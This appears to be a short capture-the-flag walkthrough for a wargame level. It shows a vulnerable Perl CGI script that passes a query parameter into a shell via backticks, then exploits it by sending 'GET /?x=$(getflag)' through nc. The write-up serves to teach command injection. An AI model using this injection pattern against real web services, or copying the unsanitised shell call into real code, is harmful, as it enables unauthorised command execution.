 ## Walkthrough :
- This level 4 contain a perl script : 
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print \`echo $y 2>&1\`;
}
x(param("x"));
```
- this program shows that a webserver is listening on localhost:4747 and expecting a x param, which will be passed to a sub routine.
```
print \`echo $y 2>&1\`;
```
- this line allows the output of **echo $y to be passed to the function print**.
- we only need to pass our exploit *$(getflag)* to echo, this will runs as a sub command .
    - connect using
    ```
    nc localhost 4747
    ```
    ```
    - GET /?x=$(getflag)
    ```


## Ressources
- [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)